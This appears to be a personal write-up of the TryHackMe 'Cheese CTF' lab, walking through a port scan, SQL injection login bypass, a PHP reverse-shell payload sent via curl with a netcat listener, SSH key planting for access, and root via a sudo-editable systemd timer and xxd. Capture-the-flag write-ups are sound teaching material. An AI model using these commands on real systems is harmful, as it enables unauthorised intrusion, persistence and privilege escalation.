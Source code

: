 ```yaml
---
title: "Cheese CTF Room"
date: 2025-07-25
categories: [TryHackMe]
tags: [vm, ctf, nmap, linux, reverse shell, privilege escalation]
excerpt: "Cheese CTF Room TryHackMe"
---
```


# Introduction

This is my resolution of Cheese CTF Room of TryHackMe.

# Scanning the target

I used Nmap command to scan for open ports on the target machine and discovered three accessible ports:

- Port 21: FTP service
- Port 22: SSH service
- Port 80: HTTP web server

![Nmap command](../assets/img/CheeseCTF_nmap.png)

Exploring the HTTP connection, I found a page with login: 
![Cheese CTF page](../assets/img/CheeseCTF_login.png)

# SQL Injection

I suspected an SQL injection vulnerability, so I started testing with sqlmap:
```
sqlmap -u "http://10.10.205.255/login.php" --data="username=test&password=test" --batch
```

Sqlmap tests if any parameters (username, password, or the URL itself) are vulnerable to SQL injection.

![sqlmap results](../assets/img/CheeseCTF_sqlmap.png)

After these results, I could realise what the username and password were so I tried: ```' || 1=1;-- -``` as the username and ```'``` as password and get in!!

# Reverse Shell Access

Then, to get a Reverse Shell, I generated a PHP payload with the command:
```
echo <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.23.149.56/4444 0>&1'"); ?> > payload.txt
```
Then, when run on the server, will open a connection back to my machine.


Then, I sent the payload to the server using:: ```curl "http://10.10.187.67/secret-script.php?file=$(cat payload.txt)"```

Open another terminal and run ```rlwrap nc -lvnp 4444```
And it's possible to enter the target machine!!

# File Exploration

Now to explore the files, always got "Permission denied" erros. So,  searched for writable files and found that ```~/.ssh/authorized_keys``` was writable, where ussually the SSH keys are saved.

On my own machine, I got my SSH public key with ```cat ~/.ssh/id_rsa.pub```, and add it to the authorized_keys:
```echo 'ssh-ed25519 sshKey kali@kali' >> /home/comte/.ssh/authorized_keys```

After this I write ```cat user.txt``` and find the firts THM flag!!

# Sudo + Timer Exploit

For the root.txt flag, I started with sudo command:

![Sudo command](../assets/img/CheeseCTF_sudoCommand.png)

So, I explored the exploit.timer file, and edit it to ```OnBootSec=5s```.

I then reloaded the systemd daemon and started the timer service:

Taking a look at the exploit.service:
```
sudo systemctl daemon-reexec
sudo systemctl start exploit.timer
```
After confirming that the timer was active, I explored exploit.service:
![exploit.service](../assets/img/CheeseCTF_exploitService.png)

I went digging and found this [XXD Documentation](https://gtfobins.github.io/gtfobins/xxd/?source=post_page-----5c1e2193880b---------------------------------------)

After a few tries I was abel to get the flag with ```opt/xxd "$LFILE" | xxd -r```!!

# Conclusion
This room was a fun mix of enumeration, SQLi exploitation, reverse shell tactics, and a clever privilege escalation via systemd timers.